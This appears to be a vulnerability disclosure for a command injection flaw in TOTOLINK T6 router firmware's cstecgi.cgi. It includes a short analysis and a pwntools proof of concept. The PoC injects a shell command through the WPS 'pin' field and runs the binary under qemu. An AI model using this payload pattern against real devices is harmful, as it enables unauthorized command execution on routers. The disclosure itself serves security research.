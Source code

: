 # Command Injection

## TOTOLINK_T6

version: V4.1.5cu.709_B20210518

## Description:

There is a execute arbitrary command  in cstecgi.cgi

## Source:

you may download it from : http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Analyse:



in sub_421AA0, pin get from mac ,and then v7->v16->v11->v15->v13

![](3.png)


finally  execute  system


## POC

```
from pwn import *
import json

data = {
    "topicurl": "setting/setWiFiWpsStart",
    "wscMode": "1",
    "pin": " ;ls > /tmp/1;:  "
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.0.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```
